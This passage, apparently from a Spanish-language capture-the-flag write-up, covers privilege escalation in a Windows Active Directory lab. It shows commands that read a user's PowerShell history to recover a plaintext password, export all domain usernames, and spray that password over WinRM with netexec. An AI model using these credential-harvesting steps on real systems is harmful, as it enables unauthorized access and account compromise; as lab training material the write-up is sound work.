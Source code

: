 ## Privilege Escalation

### Information Leakage - Reading the user's Powershell history (User Pivoting)

Procederemos a comprobar el historial de Powershell del usuario "legacyy" que es con el que hemos accedido. Comprobaremos que aparece una serie de "Script" en el cual aparece la contraseña en texto plano del usuario "svc\_deploy".

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>type $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/664_vmware_UhnEanfkw0.png" alt=""><figcaption></figcaption></figure>

Principalmente la contraseña pertenece al usuario "svc\_deploy" pero intentaremos comprobar si la contraseña sirve para otros usuarios del AD. Para ello exportaremos todos los usuarios del AD en un archivo de texto y nos lo descargaremos en nuestro equipo local.

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty Name > usersAD.txt

download usersAD.txt

catnp usersAD.txt
```

<figure><img src="../../../.gitbook/assets/665_vmware_Z57FRC8U5v.png" alt=""><figcaption></figcaption></figure>

A través de la herramienta "netexec" procederemos a intentar conectarnos al WinRM con la lista de usuarios y la contraseña encontrada. Finalmente comprobamos que las credenciales solamente son válidas para el usuario "svc\_deploy".
